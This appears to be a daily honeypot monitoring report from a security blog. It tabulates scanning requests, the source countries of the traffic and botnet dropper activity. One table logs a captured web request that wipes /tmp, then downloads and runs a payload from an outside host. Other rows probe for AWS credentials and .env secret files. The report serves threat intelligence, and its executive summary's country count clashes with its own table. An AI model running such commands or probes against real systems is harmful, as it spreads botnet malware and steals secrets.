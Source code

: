 ```yaml
---
title: "Report: 2025-07-24 "
date: 2025-07-24
desciption: "Report: 2025-07-24" 
tags: [repport, daily]
---
```



# Daily Report: 2025-07-24 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 3 stage 1 IP address(es), linked to 1 dropper URL(s).  

There are 19 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 576 requests were recorded during the day, originating from 3 different countries, with a peak of 313 requests coming from US.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| US               | Dubai              |
| US               | Dubai              |

## botnet_dropper_behaviour
| remote_addr   | request                                                                              |
|:--------------|:-------------------------------------------------------------------------------------|
| 8.222.187.219 | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1 |
| 8.222.177.243 | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1 |
| 8.222.249.19  | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1 |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                                       |
|----:|----------------------:|:--------------------------------------------------------------|
| 202 |                     1 | GET /.aws/cognito/ HTTP/1.1                                   |
| 203 |                     1 | GET /.aws/policies HTTP/1.1                                   |
| 205 |                     1 | GET /aws-config.js HTTP/1.1                                   |
| 207 |                     1 | GET /.env-bot.env HTTP/1.1                                    |
| 208 |                     1 | GET /.env-project HTTP/1.1                                    |
| 209 |                     1 | GET /.env-profile HTTP/1.1                                    |
| 211 |                     1 | GET /.env-scripts HTTP/1.1                                    |
| 212 |                     1 | GET /.env.env.bak HTTP/1.1                                    |
| 214 |                     1 | GET /.env.prod.js HTTP/1.1                                    |
| 218 |                     1 | GET /.env-preview HTTP/1.1                                    |
| 219 |                     1 | GET /.env-secrets HTTP/1.1                                    |
| 224 |                     1 | \x00\x0E8\x08\xB2\x1D\x1By\xAA\x03\x95\x00\x00\x00\x00\x00    |
| 225 |                     1 | \x00\x0E\x08\x08\xB2\x1D\x1By\xAA\x03\x95\x00\x00\x00\x00\x00 |
| 248 |                     1 | GET /.aws/credentials/uploads/ HTTP/1.1                       |
| 265 |                     1 | GET /.aws/api-keys HTTP/1.1                                   |
| 300 |                     1 | GET /aws.config.js HTTP/1.1                                   |
| 302 |                     1 | GET /aws/keys.json HTTP/1.1                                   |
| 304 |                     1 | GET /.aws/glacier/ HTTP/1.1                                   |
| 307 |                     1 | GET /.aws/keypairs HTTP/1.1                                   |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   313 | US                 |
|  1 |                    86 | GB                 |
|  2 |                    34 | LT                 |
|  3 |                    28 | NL                 |
|  4 |                    18 | PL                 |
|  5 |                    17 | BG                 |
|  6 |                    15 | DE                 |
|  7 |                    13 | SC                 |
|  8 |                    11 | RO                 |
|  9 |                     5 | MU                 |
| 10 |                     5 | CN                 |
| 11 |                     4 | PT                 |
| 12 |                     4 | BE                 |
| 13 |                     4 | SG                 |
| 14 |                     3 | ZA                 |
| 15 |                     3 | IN                 |
| 16 |                     3 | KZ                 |
| 17 |                     2 | AU                 |
| 18 |                     1 | BD                 |
| 19 |                     1 | IR                 |
| 20 |                     1 | MC                 |
| 21 |                     1 | MY                 |
| 22 |                     1 | RU                 |
| 23 |                     1 | SE                 |
| 24 |                     1 | HK                 |
| 25 |                     1 | PA                 |
